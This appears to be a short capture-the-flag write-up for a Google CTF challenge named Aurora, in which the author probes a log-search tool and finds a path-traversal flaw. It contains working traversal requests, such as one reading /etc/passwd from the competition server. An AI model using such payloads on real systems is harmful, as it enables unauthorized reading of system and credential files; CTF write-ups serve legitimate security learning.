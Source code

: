 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/


## Step 1

aurora

0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|



  |_

00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|

We realised we can use requests
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=00


The 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
root:x:0:0:root:/root:/bin/bash

https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../../usr/bin/ls&term=libu

File names in logs/
```
hexdump.txt
registry.txt
exploit_unobfuscated.js
filenames.txt
hostnames.txt
strings.txt
exploit.js
```
